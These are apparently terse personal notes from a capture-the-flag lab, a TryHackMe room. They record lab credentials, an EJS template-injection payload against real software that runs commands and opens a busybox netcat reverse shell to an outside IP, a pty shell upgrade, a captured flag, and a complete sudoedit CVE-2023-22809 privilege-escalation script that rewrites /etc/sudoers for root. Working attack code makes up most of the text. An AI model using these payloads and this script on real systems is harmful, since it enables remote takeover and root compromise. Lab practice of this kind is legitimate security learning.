 usernmae = Gayle Bev
password = p~]P@5!6;rs558:q


Tyrell Wellick phone : 	842-029-570
https://github.com/mde/ejs/issues/735?source=post_page-----fbe6a2bf70af--------------------------------
```code
http://127.0.0.1:3000/?name=John&settings[view options][client]=true&settings[view options][escapeFunction]=1;return global.process.mainModule.constructor._load('child_process').execSync('calc');
```
busybox nc 10.17.2.145 4444 -e /bin/sh))

```final mod request
name=test&settings[view options][client]=true&settings[view options][escapeFunction]=1;return global.process.mainModule.constructor._load('child_process').execSync('busybox nc 10.17.2.145 4444 -e /bin/sh');
```
python3 -c "import pty;pty.spawn('/bin/bash')"

user.txt -> THM{4lways_upd4te_uR_d3p3nd3nc!3s}

```bash exploit.sh
#!/usr/bin/env bash
#
# Exploit Title: sudo 1.8.0 - 1.9.12p1 - Privilege Escalation
# 
# Exploit Author: n3m1.sys
# CVE: CVE-2023-22809
# Date: 2023/01/21
# Vendor Homepage: https://www.sudo.ws/
# Software Link: https://www.sudo.ws/dist/sudo-1.9.12p1.tar.gz
# Version: 1.8.0 to 1.9.12p1
# Tested on: Ubuntu Server 22.04 - vim 8.2.4919 - sudo 1.9.9
#
# Running this exploit on a vulnerable system allows a localiattacker to gain 
# a root shell on the machine.
#
# The exploit checks if the current user has privileges to run sudoedit or 
# sudo -e on a file as root. If so it will open the sudoers file for the
# attacker to add a line to gain privileges on all the files and get a root 
# shell.

if ! sudo --version | head -1 | grep -qE '(1\.8.*|1\.9\.[0-9]1?(p[1-3])?|1\.9\.12p1)$'
then
    echo "> Currently installed sudo version is not vulnerable"
    exit 1
fi

EXPLOITABLE=$(sudo -l | grep -E "sudoedit|sudo -e" | grep -E '\(root\)|\(ALL\)|\(ALL : ALL\)' | cut -d ')' -f 2-)

if [ -z "$EXPLOITABLE" ]; then
    echo "> It doesn't seem that this user can run sudoedit as root"
    read -p "Do you want to proceed anyway? (y/N): " confirm && [[ $confirm == [yY] ]] || exit 2
else
    echo "> BINGO! User exploitable"
fi

echo "> Opening sudoers file, please add the following line to the file in order to do the privesc:"
echo "$USER ALL=(ALL:ALL) ALL"
read -n 1 -s -r -p "Press any key to continue..."
EDITOR="vim -- /etc/sudoers" $EXPLOITABLE
sudo su root
exit 0


```
```explaination

bw```



root.txt ->




### References 
https://jaxafed.github.io/posts/tryhackme-whiterose/
https://www.exploit-db.com/exploits/51217 [web -> root] [previlage esclation]
https://github.com/n3m1sys/CVE-2023-22809-sudoedit-privesc/blob/main/exploit.sh [previlage esclation]
